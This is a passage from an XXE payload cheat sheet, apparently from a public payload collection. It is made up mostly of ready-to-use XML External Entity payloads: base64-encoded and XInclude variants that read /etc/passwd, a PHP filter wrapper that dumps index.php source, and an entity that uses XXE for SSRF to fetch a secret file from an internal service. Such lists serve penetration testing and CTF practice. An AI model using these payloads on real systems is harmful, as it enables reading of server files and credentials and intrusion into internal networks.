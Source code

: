 :warning: `SYSTEM` and `PUBLIC` are almost synonym.

```ps1
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

### Classic XXE Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper Inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude Attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## Exploiting XXE to Perform SSRF Attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```
